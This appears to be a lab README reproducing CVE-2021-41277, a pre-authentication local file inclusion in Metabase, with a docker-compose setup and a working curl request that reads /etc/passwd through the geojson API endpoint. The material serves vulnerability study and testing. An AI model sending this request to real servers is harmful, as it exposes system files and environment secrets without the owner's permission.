


# Metabase Pre-Auth Local File Inclusion (CVE-2021-41277)

[中文版本(Chinese version)](README.zh-cn.md)

Metabase is an open source data analytics platform. In affected versions (x.40.0-x.40.4) a security issue has been discovered with the custom GeoJSON map (`admin->settings->maps->custom maps->add a map`) support, unauthenticated attackers can use this vulnerability to read local file (including environment variables).

References:

- <https://github.com/metabase/metabase/security/advisories/GHSA-w73v-6p7p-fpfr>
- <https://github.com/tahtaciburak/CVE-2021-41277>

## Environment Setup

Execute following command to start a Metabase server 0.40.4:

```
docker-compose up -d
```

After the server is started, you can browse the `http://your-ip:3000` to see the installation instructions like that:



Fill in your information, and skip the data source form.

## Vulnerability Reproduce

Simplely use the CURL to exploit this flaw:

```
curl -v http://your-ip:3000/api/geojson?url=file:////etc/passwd
```

As you can see, `/etc/passwd` has been exposed successfully.


